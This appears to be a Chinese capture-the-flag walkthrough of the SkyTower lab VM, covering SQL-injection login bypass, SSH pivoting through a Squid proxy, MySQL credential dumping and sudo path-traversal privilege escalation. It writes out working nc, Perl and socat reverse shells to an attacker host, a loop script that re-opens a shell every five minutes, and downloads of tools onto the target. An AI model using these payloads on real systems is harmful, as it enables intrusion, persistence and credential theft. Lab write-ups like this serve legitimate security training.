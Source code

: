 1、nmap 10.211.55.0/24 -sP
Nmap scan report for localhost (10.211.55.38)

2、全端口扫描nmap
nmap -sS -sV -A -T5 10.211.55.38

22/tcp   filtered ssh
80/tcp   open     http       Apache httpd 2.2.22 ((Debian))
3128/tcp open     http-proxy Squid http proxy 3.1.20

开启了三个端口！squid-http


3、页面枚举sql注入

访问：http://10.211.55.38/

利用burpsuite抓包拦截发送到->intruder进行sql注入爆破，为了确保选择email和password字段，攻击类型设置：pitchfork

利用源码：
https://github.com/melbinkm/SQL-Injection-Payloads/blob/master/sqli_auth.list

payloads1和2选择同样的文本，并单击Start Attack！
当攻击继续进行时，可以注意到一些请求的响应长度是231一些是1838，1838是想要的结果，因为是登录成功！

可看到有八条1838的内容都是成功回显，将数据包放Repeater发送！

Username: john
Password: hereisjohn
获得账号密码！

分析：sqlmap
使用自动化sql注入测试工具无法跑进去寻找出数据，因为对sql语句已经完成过滤！

mysql数据库信息通常用：
| 是或(or)运算符号，相同位只要一个为1即为1。如00111 | 11100=11111

'||1

常见的sql注入：
' and '1'='1 OR and '1'='2
and 1=1 OR and 1=2
and sleep(5)
' –-

SQL Server、Oracle注释可以用-- 
Mysql注入可以用#、-- /**/ 、;%00 、/*letmetest*/

所以这里手工注入用'||1#即可绕过！


4、代理转发SSH

Username: john
Password: hereisjohn
ssh john@10.211.55.38   ---发现是无法登录的，因为22端口过滤了

3128端口开启了squid-http
Squid cache（简称为Squid）是流行最广的，使用最普遍的开源缓存代理服务器：
https://blog.csdn.net/qq_21419995/article/details/80888680

--------------------
1）方法1：proxychains代理
ProxyChains是Linux和其他Unix下的代理工具。 它可以使任何程序通过代理上网， 允许TCP和DNS通过代理隧道， 支持HTTP、 SOCKS4和SOCKS5类型的代理服务器， 并且可配置多个代理。 ProxyChains通过一个用户定义的代理列表强制连接指定的应用程序， 直接断开接收方和发送方的连接。

ProxyChains 是一个强制应用的 TCP 连接通过代理的工具，支持 Tor、HTTP、与 Socks 代理。与 sshuttle 不同的是，ProxyChains 只会将当前应用的 TCP 连接转发至代理，而非全局代理。
https://zhuanlan.zhihu.com/p/166375631


使用proxychains进行代理登录ssh：
vi /etc/proxychains4.conf
添加：http 10.211.55.38 3128
proxychains ssh  john@10.211.55.38  ---自动断开了，发现只可读不可写

proxychains ssh -t john@10.211.55.38 cat .bashrc   ----成功执行命令

2）方法2：proxytunnel隧道代理
proxytunnel是一款利用http connection封装技术建立隧道的工具
使用条件：防火墙禁止DNS和ICMP隧道，只允许代理服务器上网的情景
-a 指定本地侦听端口
-p 使用代理
-r 使用第二个代理
-d 指定访问的目标和端口

proxytunnel -p 10.211.55.38:3128 -d 127.0.0.1:22 -a 1234  kali本地1234端口
将kali与项目的3128端口建立隧道，隧道建立的端口转发到项目本地的22端口，然后在映射到kali本地1234端口。

ssh john@127.0.0.1 -p 1234    ---成功登录
hereisjohn
--------------------
绕过ssh
不允许用户生成 TTY shell，使用 SSH 绕过此类限制
nc -vlp 5566
ssh john@127.0.0.1 -p 1234 nc 10.211.55.19 5566 -e /bin/bash
hereisjohn

ssh john@127.0.0.1 -p 1234 mv .bashrc .bashrc.bak   ---或者rm删除
ssh john@127.0.0.1 -p 1234
hereisjohn


前面报错的时候提示了：Funds have been withdrawn
grep -rn "Funds have been withdrawn"
.bashrc:113:echo  "Funds have been withdrawn"
----------
# If not running interactively, don't do anything
case $- in
    *i*) ;;
      *) return;;
esac

i选项是关闭的
这里面的命令导致结束shell！
---------

.bashrc详解：
https://linux.cn/article-9298-1.html
http://c.biancheng.net/view/2767.html


该环境下没有安装python，那么安装perl在反弹下：
perl -e 'use Socket;$i="10.211.55.19";$p=6677;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

python -c 'import pty; pty.spawn("/bin/bash")'


5、mysql信息枚举
-----------------------
sudo -l

Sorry, user john may not run sudo on SkyTower.
直接sudo提权…提示不能提权，就知道没这么简单…
-----------------------
查看底层文件login.php
$sqlinjection = array("SELECT", "TRUE", "FALSE", "--","OR", "=", ",", "AND", "NOT");
这是sql语句的限制！

发现mysql用户密码：root/root


mysql -uroot -proot
show databases;
use SkyTech
show tables;
select * from login;
+----+---------------------+--------------+
| id | email               | password     |
+----+---------------------+--------------+
|  1 | john@skytech.com    | hereisjohn   |
|  2 | sara@skytech.com    | ihatethisjob |
|  3 | william@skytech.com | senseable    |
+----+---------------------+--------------+
存在三个账号密码信息！

ssh sara@127.0.0.1 -p 1234 mv .bashrc .bashrc.bak    ---成功登录
ssh sara@127.0.0.1 -p 1234
ihatethisjob

ssh william@127.0.0.1 -p 1234 mv .bashrc .bashrc.bak   ---登录失败
ssh william@127.0.0.1 -p 1234
senseable

6、提权

1）sara
sudo -l

User sara may run the following commands on this host:
    (root) NOPASSWD: /bin/cat /accounts/*, (root) /bin/ls /accounts/*

可看到具有root cat可读权限！
sudo ls /accounts/../root
sudo cat /accounts/../root/flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower

说root的密码是：theskytower

ssh root@127.0.0.1 -p 1234
theskytower

成功登录！


------------
拓展知识：不需要mysql知道信息枚举
1）枚举信息+sql注入拿ssh多个账户权限
cat /etc/passwd

username: sara@skytech.com
password: '-'

username: william@skytech.com
password: '-'

2）pty方法
wget --no-check-certificate https://github.com/ernw/static-toolbox/releases/download/socat-v1.7.4.1/socat-1.7.4.1-x86_64 -O socat

wget http://10.211.55.19:8081/socat
chmod +x socat

nc -vlp 9999
HOME=/dev/shm ./socat tcp:10.211.55.19:9998 exec:'/bin/bash -li',pty,stderr,sigint,sighup,sigquit,sane
回显：
john@SkyTower:/home/john$ sudo -l
sudo -l
sudo: no tty present and no askpass program specified
john@SkyTower:/home/john$ 
还是没补齐命令，使用script：
script -qc bash /dev/null
这时候就可以：sudo -l
hereisjohn
成功交互tty！

3）小技巧替换bashrc
sed -i 's/exit/echo/g' .bashrc

ssh john@127.0.0.1 -p 1234 -t "sed -i 's/exit/echo/g' .bashrc"
hereisjohn

-i  直接修改文件

用sed将bashrc文件中的exit全部替换为echo！

或者：
ssh john@127.0.0.1 -p 1234 -t "head -n -3 .bashrc > .bashrc"
hereisjohn

head删除最后三行信息！

4）小技巧：每五分钟回弹一个shell
----------------------------
#!/bin/sh
while true; do
    perl -e 'use Socket;$i="10.211.55.19";$p=7777;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
    # sleep for 300 seconds (5 mins)
    sleep 300
done
----------------------------
因为shell是通过22端口代理进去的实战中防止万一情况发生，由于对方安装了perl，所以用该进行反弹！每五分钟会回弹一次！

wget http://10.211.55.19:8081/dayu-shell.sh
chmod +x dayu-shell.sh
./dayu-shell.sh












